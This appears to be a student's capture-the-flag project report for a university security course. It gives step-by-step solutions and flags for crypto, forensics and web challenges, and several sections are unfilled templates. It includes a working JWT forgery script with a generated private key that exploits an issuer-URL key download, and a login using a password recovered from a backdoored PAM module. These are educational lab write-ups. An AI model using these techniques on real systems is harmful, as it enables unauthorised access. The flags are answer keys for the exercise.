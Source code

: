 <div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">
  
  <h2>CITS1003 Project Report</h2>
  
  <p>Student ID: Student 24059081</p>
  <p>Student Name: Ziying Zhou</p>

</div>

# Part 1 - Linux and Networking
## Emu Hack #1 - Backdoored
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Emu Hack #2 - Git Gud
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Emu Hack #3 - SSH Tricks
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Emu Hack #4 - Git Gud or GTFO Bin
### Step 1
A clear, and detailed description. 

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

# Part 2 - Cryptography
## Advanced Emu Standard
### Step 1
This scenario describes the use of AES-128 encryption algorithm to encrypt data in ECB (Electronic Codebook) mode.
Because AES-128 operates with a block size of 16 bytes. The website can only encrypt 31 bytes of data at a time. However, command `deactivate_special_procedure_123` has 32 bytes long So I devided this command into two parts both only have 16 bytes of it.
```bash
deactivate_speci
```
```bash
al_procedure_123
```

### Step 2
I put these two command `deactivate_speci` and `al_procedure_123` into Command Encryptor respectively.
Then I gain the ciphertext `3155433d53ed30c89aef89b2e7273924` and `4127efafc809cc1209376d039e0001f1`.
Now put them together.
```bash
3155433d53ed30c89aef89b2e72739244127efafc809cc1209376d039e0001f1
```
### Step 3
Put the cyphertext into Transmit encrypted command and get the flag.
#### Flag Found
```bash
UWA{3CB_i5_bL0cK_Ind3peNd3nt!}
```

## Emu Cook Book
### Step 1
`H4sI` is an identifier that indicates that a string of data is compressed using gzip and encoded as the beginning of Base64 format
At the end of the cyphertext, there are two '=' which is also likely to be Base64. 
So I try to use `From Base64` and `Gunzip` first in Cyberchef.
Then I gain these:
```
00000000%20%2035%2036%2020%2035%2036%2020%2036%2034%2020%2034%2032%2020%2036%2035%2020%2033%20%20%7C56%2056%2064%2042%2065%203%7C%0A00000010%20%2033%2020%2035%2032%2020%2034%2039%2020%2034%2064%2020%2033%2031%2020%20......
```
### Step 2
As we can see above, the text includes special characters like '%' in it. It might be the URL encoding format, so I use `URL Decode`
And it becomes like this:
```
00000000  35 36 20 35 36 20 36 34 20 34 32 20 36 35 20 33  |56 56 64 42 65 3|
00000010  33 20 35 32 20 34 39 20 34 64 20 33 31 20 33 39  |3 52 49 4d 31 39|
......
```
### Step 3
The result we gained from last step is `Hexdump` format, so I use `From Hexdump` in cyberchef, then we obtained a set of hexadecimal numbers.
Easily, use `From Hex` in cyberchef.
Then we have:
```
VVdBe3RIM19lTW9PNV93MUxMX24zVjNyX3NUb1BfZDAxbkdfdEgzNWVfZFZtQl9jMUJyX2NIM2VGX2NoNExsU30=
```
Similarly, it ends with '='. So I assume it is a base64 text and use `From Base64` again.
And we have the flag now.
#### Flag Found
```bash
UWA{tH3_eMoO5_w1LL_n3V3r_sToP_d01nG_tH35e_dVmB_c1Br_cH3eF_ch4LlS}
```

## Emu Casino
### Step 1
#### What is seed?
As we can see from the `filp_coin.py` file, `seed(str(session["round"]) + "_" + session["session_id"])` is the main thing to decide the result.
The seed() function in Python initializes the random number generator with a specific starting point, allowing for reproducible random outcomes.
The seed here is consist of two parts: first one is `session["round"]` which is the round of the game, the second one is `session["session_id"]` which can be found in the cookie.
### Step 2
#### Find the session id:
We can right click on the page `http://34.87.251.234:3000/` and select `inspect`. Then find `Application` and we can see `cookie` on the left panel.
The cookie value we found is:
```
eyJjcmVkaXRzIjoxMCwicm91bmQiOjEsInNlc3Npb25faWQiOiJiYTNlNTJiMTc0M2Y3MzUxOGM4YmEwYzY1YjAzYTliYyJ9.ZkiIpw.pTUdUQa5nkII0zkbM7EBa8RXQY4
```
This is base64 text, so we can decode it through CyberChef: `https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)`.
CyberChef is a web-based tool for encoding, decoding, encrypting, decrypting, and analyzing data through a wide array of operations.

After we use `From Base64` , we got:
```
{"credits":10,"round":1,"session_id":"ba3e52b1743f73518c8ba0c65b03a9bc"}fH.§
SQÕ.k.ä .3.³;..¼Et.ä
```
So the session id is `ba3e52b1743f73518c8ba0c65b03a9bc`.
### Step 3
#### Use `solution.py`:
As the solution provided:
```

def flip_coin():
    # Change this line
    session_id = ""
    # Change this line
    round = 0

    seed(str(round) + "_" + session_id)

    print(choice(["tails", "heads"]))
```
Only thing we need to do is filling the session id and round number in it and we will get the prediction.
#### Flag Found
```bash
UWA{R0LLl111Llli1iNg_1N_C4$$$$h!11!}
```

## EWT
### Step 1
#### Find the flaw:
Open the `website.js` file, is easily to find the code below:
```
if (signingAlgo === "RS256") {
        // Grab where the RS256 public key URL from the "iss" claim in the JWT body
        // We currently haven't figured out how to sign our own RS256 JWTs yet...
        const issuerUrl = decodedBody.iss;

        // Make sure those hoomans aren't hacking with something like file://
        const regExp = new RegExp("^https?://");
        if (!regExp.test(issuerUrl)) {
            throw Error("invalid URL in iss claim");
        }
        
        // Should be fine to download the public key
        key = await downloadFromUrl(issuerUrl);
    }
```
In the comment, it reveals that EMU didn't use RS256 to sign their JWT. So we can use a JWT signed with RS256 to bypass the verification.
### Step 2
#### How is the JWT consist of:
JWT (JSON Web Token) is a compact, URL-safe means of representing claims to be transferred between two parties, commonly used for authentication and information exchange in web applications.
As we can find this JWT in site `http://34.87.251.234:3002/` :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBlYXNhbnQtaG9vbWFuIiwiaWF0IjoxNzE2MDMwNTMzfQ.AXthaVqinWUo9K0DAWdzOyq-KL2H3_09GQsPw7RngrY
```
Now decode it through Cyberchef to look at the structure.
```
{"alg":"HS256","typ":"JWT"}{"username":"peasant-hooman","iat":1716030533}..¶..ª)ÖR.JÐ0.w3²¨¢ö.}=...Ã´g.¶
```
This JWT is signed with HS256 algorithm. Still in the `website.js`, a comment: ` // If the username is "superior-emu" in the JWT then give them the pressie` replies that we can use username:`superior-emu` to sign the JWT. Then how?
### Step 3
#### Create the new JWT:
To force the emu download our public key signed by RS256, we need to create an URL where can be read by emu.
Using CyberChef, `Generate RSA Key Pair` can provide a pair of RSA key.
```
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDWJNveamCYETN8BeTUxHL8AOGs
Kc0YqlYtpUqGQtMAGFe4FpDg+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxc
MO72l4bsTbSuNQtuqsDT6s5nRTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WL
uQPL30p13CJR7LzI3wIDAQAB
-----END PUBLIC KEY-----

-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----
```
We can use website `https://text.is/` to keep the public key. Now we got the URL:`https://text.is/KXRZ8/raw`.
In the context of JWT (JSON Web Tokens), iss stands for "issuer" and is a claim that identifies the principal that issued the JWT.
So we are going to put the URL into iss: iss:"https://text.is/KXRZ8/raw".
By combining all the things we know and put it into a python file(for generating the JWT)
```
import jwt
from datetime import datetime, timedelta

private_key = """-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----"""

payload = {
    'username': 'superior-emu', 
    'iss': 'https://text.is/KXRZ8/raw' 
}
# Sign JWT with RSA256
encoded_jwt = jwt.encode(payload, private_key, algorithm='RS256')
print("Generated JWT:", encoded_jwt)
```
we can obtain:
```
Generated JWT: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVyaW9yLWVtdSIsImlzcyI6Imh0dHBzOi8vdGV4dC5pcy9LWFJaOC9yYXcifQ.OtYLcA-LcQGuWC405HuJxtV5xADgYBM7bL78JlrFMiZcMwq-6w2Br9ZC2u3AqQz9wVhYrZrbI9h0rS_YWC6ExN9SUXCQjNjnT54wudo19xWfqveE82E6Ed_Ir1MCWwHfMb3NvbAWqYdKvmS-Y1PWLypA7siUOC869qcwbz6AZqg
```
Put this JWT into the server.
#### Flag Found
```bash
UWA{w4iT_wHeR3_d1D_u_g1T_d4t_k3y???}
```

# Part 3 - Forensics
## Caffeinated Emus
### Step 1
Picture may embed some metadata. You can use exiftool to extract this information.
Install exiftool:
```
sudo apt-get install exiftool
```
Extract metadata:
```
exiftool /home/kali/loganpaul-emus.png
```
And we got:
```
┌──(kali㉿kali)-[~]
└─$ exiftool /home/kali/loganpaul-emus.png
ExifTool Version Number         : 12.76
File Name                       : loganpaul-emus.png
Directory                       : /home/kali
......
GPS Latitude                    : 31 deg 27' 59.19" S
GPS Longitude                   : 119 deg 29' 0.70" E
GPS Position                    : 31 deg 27' 59.19" S, 119 deg 29' 0.70" E
```
Now we have the location: `-31.466441, 119.483528`.
So we can search it in GoogleMap: `https://www.google.com/maps`.
#### Flag Found
```bash
UWA{Marvel Loch}
```

## Flightless Data
### Step 1
As we can know from the clue, emu used `steghide` to encode their message in the image. So we can decode it with the oppsite way:
Install the `steghide` first:
```
sudo apt install steghide 
```
Look for some help with:
```
steghide --help
```
### Step 2
Save the image from `html` as emufly.jpg.
Now we got what we need:
```
┌──(kali㉿kali)-[~]
└─$ steghide extract -sf /home/kali/emufly.jpg
Enter passphrase: 
wrote extracted data to "secret.txt".
```
`-sf`: Specify a file that contains hidden data.

Now open the secret.txt
```
cat secret.txt
```
#### Flag Found
```bash
UWA{fLigHtL3sS_d4Ta_uNd3r_tH3_r4dAr} 
```

## Ruffled Feathers
### Step 1
#### Using ghex to find the problem:
GHex, short for GNOME Hex Editor, is a desktop application used to edit binary files in hexadecimal format, providing tools to analyze and modify the raw binary content of files visually. 
Download it with command :
```
sudo apt install ghex
```
Then open the pdf file with ghex:
```
ghex /home/kali/topsecret_corrupted.pdf
```
What we can see from the right panel is:

![image](https://github.com/GLRY-M/cits1003/assets/169660884/8b9abe0b-b9a4-49e2-a3fb-002ca9b368a7)

It's a little bit hard to check what's the problem. So we can open a normal pdf file to check the difference.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/54c88605-95ac-4740-9d73-2a71d824ce9d)

What was supposed to be `length` was `Corrupted`.So we can edit this and save it. Now the pdf has the useful content in it.
#### Flag Found
```bash
UWA{uNrUffLed_pDeF}
```


## Emu in the Shell
### Step 1
#### SSH login to server:
Connect to the server via SSH using the provided account information. Using commands:
```
ssh-p 2022 ir-account@34.87.251.234
```
`- p 2022` is the specified port, the username is `ir-account`, and the server address is `34.87.251.234`.  

Find and check the PAM module:
Once logged in, we need to check the files in the `/lib/x86_64 Linux gnu/security` directory to find any recently modified PAM modules. We can use the following command to view the modification time of a file:
```
ls lt/lib/x86_64 Linux gnu/security
```
To find the file be changed by EMU, we can go to this blog: `https://github.com/zephrax/linux-pam-backdoor`. Then we will know the file `pam_unix.so` is what er are looking for.
### Step 2
#### Now copy this file to local folder:
Let's copy the files to the `/tmp` directory, which is usually open to all users for write access. Use the following command:
(Ensure that you execute this command in the terminal of the Kali environment)
```
scp -P 2022 ir-account@34.87.251.234:/tmp/pam_unix.so ~/pam_unix.so
```
### Step 3
#### Analyse what did EMU change in pam_unix.so:
Use Ghidra to do it: (download it through: `https://ghidra-sre.org/`).
We also need to download JDK (version need to higher than 17)

Now open Ghidra and import `pam_unix.so` and `analyse` it. As we knew from the clue, there is an account called 'emu-haxor', so we can use this as the keyword to search in the file.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/bf625be8-22b5-4103-a692-4b7ff54ba2f4)

There is an item `pUpPet_m4sT3r`. It probably is the password for emu-haxor account. So log in the emu-haxor now:
```
ssh-p 2022 emu-haxor@34.87.251.234
```
The flag should be in it right now, use `ls` have a look at what's in here and we can find there is a `flag.txt` here -- is what we are looking for:
```
cat flag.txt
```

#### Flag Found
```bash
UWA{tH15_eMu_w1Ll_aLw4y5_b3_iN_uR_sH3lLlLllL!11!}
```

# Part 4 - Vulnerabilities
## Feathered Forum - Part 1
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Feathered Forum - Part 2
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Feathered Forum - Part 3
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Emu Apothecary
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

